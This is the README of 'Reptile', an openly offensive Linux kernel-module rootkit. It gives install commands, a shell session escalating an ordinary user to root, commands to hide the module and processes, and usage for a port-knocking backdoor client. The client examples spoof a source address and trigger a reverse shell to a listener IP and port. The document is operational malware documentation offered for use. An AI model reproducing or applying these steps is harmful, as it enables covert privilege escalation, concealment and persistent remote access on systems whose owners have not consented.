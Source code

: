 # Reptile

Reptile is a LKM rootkit. 

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install

```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```

## Usage
### Getting root privileges

```
hax@Debian:~$ id
uid=1000(hax) gid=1000(hax) grupos=1000(hax),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),118(scanner)
hax@Debian:~$ /reptile/r00t
You got super powers!

root@Debian:/home/hax# id
uid=0(root) gid=0(root) groups=0(root)
```

### Hiding

- Hide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents:
  - All content between the hide tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
